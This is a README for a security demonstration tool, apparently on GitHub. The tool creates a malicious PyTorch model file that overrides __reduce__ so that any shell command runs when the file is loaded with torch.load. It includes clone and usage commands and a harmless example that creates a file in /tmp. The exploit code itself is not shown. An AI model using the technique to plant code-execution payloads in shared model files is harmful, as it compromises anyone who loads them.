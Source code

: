 # Evil PyTorch Model

A Python script demonstrating a potential security vulnerability in PyTorch's model serialization using `torch.save`.

## Table of Contents

- [Overview](#overview)
- [Usage](#usage)
- [Example](#example)
- [Security Considerations](#security-considerations)
- [License](#license)

## Overview

This script creates an "evil" PyTorch model (`EvilModel`) that showcases a security vulnerability related to PyTorch's model serialization using `torch.save`. The `EvilModel` class overrides PyTorch's `__reduce__` method to execute arbitrary commands passed as arguments during deserialization.

## Usage

1. **Clone the Repository:**

   ```bash
   $ git clone https://github.com/duck-sec/pytorch-evil-pth.git
   $ cd pytorch-evil-pth.git
   ```

2. **Run the Script:**

   Use Python to execute the script, providing a command to execute as an argument. Ensure you have PyTorch installed.

   ```bash
   $ python evil_pth.py '<command>'
   ```

   Replace `<command>` with any shell command you want to execute when the malicious model (`evil_model.pth`) is loaded.

## Example

```bash
$ python evil_pth.py 'touch /tmp/gotya'
Evil model saved as 'evil_model.pth'
```


